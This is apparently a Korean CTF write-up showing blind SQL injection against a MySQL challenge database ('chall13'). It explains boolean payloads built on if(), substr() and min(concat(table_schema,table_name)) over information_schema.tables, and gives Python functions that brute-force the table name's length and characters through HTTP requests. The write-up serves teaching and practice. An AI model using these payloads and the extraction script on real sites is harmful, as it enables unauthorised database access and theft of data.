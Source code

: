 #### DB 이름이 min() 함수로 잡히는지 확인
```python
query = f"if((select(ord(substr(min(table_schema),{i},1)))from(information_schema.tables))in({ord(letter)}),1,0)"
```
바로 위의 함수와 코드는 완전히 동일하게 하지만 쿼리 부분만 살짝 변형시켜보았다.<br />
`min(table_schema)` 값을 이용해서도 동일하게 "chall13" 값을 얻어낼 수 있는지 알아내기 위함이다.<br />
만일 해당 함수의 결과가 chall13이라면 min() 함수를 이용해서 우리가 얻고자하는 테이블 값을 얻어낼 수 있기 때문이다.<br />
#### 진짜 테이블 길이, 이름 알아내기
>`INFORMATION_SCHEMA` is a database within each MySQL instance, the place that stores information about all the other databases that the MySQL server maintains.

[MySQL 공식문서](https://dev.mysql.com/doc/refman/8.4/en/information-schema-introduction.html)에 의하면 information_schema는 MySQL 서버의 모든 데이터베이스 값이 들어있고 information_schema.tables의 경우에도 우리가 원하는 chall13 데이터베이스 이외의 테이블들이 들어있다는 것이다.<br />

그래서 chall13 데이터베이스의 특정 테이블 이름을 알아내려면 둘을 한데 묶어버려야 한다.<br />
##### 쿼리 살펴보기
이번엔 쿼리가 좀 복잡하여 코드 이전에 미리 설명하고 가야할 듯 하다.<br />

```python
# table name length
if((select(length(min(concat(table_schema,table_name))))from(information_schema.tables))in(i),1,0)
```
테이블의 이름을 알아내는 쿼리이다.<br />
여기서 `concat()` 함수를 이용하고 있는데 그 이유는 table_schema(DB 이름)와 table_name을 합쳐주어야 특정 DB의 테이블 값을 가져올 수 있기 때문이다.<br />

이 전에 DB의 이름이 min() 함수로 체크가 되는지 확인이 됐으니 `min(concat(table_schema, table_name))`으로 chall13 DB의 테이블 이름을 가져오는 것이다.<br />

결국 해당 SELECT문을 MySQL이 수행할 때에 `information_schema.tables`의 모든 table_schema + table_name 조합을 만들어 그 중 가장 작은(ascii 코드 기준으로 가장 작은 글자로 시작하는 문자열 "chall13RandomFlagValue" 조합을 반환한다는 것이다.<br />

이런식으로 우리는 데이터베이스 chall13에 들어있는 table_name을 읽어낼 수 있다.<br />

```python
# table name
if((select(ord(substr(min(concat(table_schema,table_name)),{i},1)))from(information_schema.tables))in({ord(letter)}),1,0)
```
이렇게 길이를 알아냈다면 비슷한 방식으로 이제 진짜 테이블 이름을 알아내면 된다.<br />

```python
def getTableNameLength(self):
	for i in range(1, 100):
		query = f"if((select(length(min(concat(table_schema,table_name))))from(information_schema.tables))in({i}),1,0)"
		resp = requests.get(self.url + query)
		if self.true_factor in resp.text:
			self.table_length = i
			break
		
	print("Table Name's Length:", self.table_length)

def getTableName(self):
	tmp_str = ""
	for i in range(8, self.table_length + 1):
		for letter in string.printable:
			query = f"if((select(ord(substr(min(concat(table_schema,table_name)),{i},1)))from(information_schema.tables))in({ord(letter)}),1,0)"
			resp = requests.get(self.url + query)
			print(letter)
			if self.true_factor in resp.text:
				tmp_str += letter
				print("Found", letter)
				break
```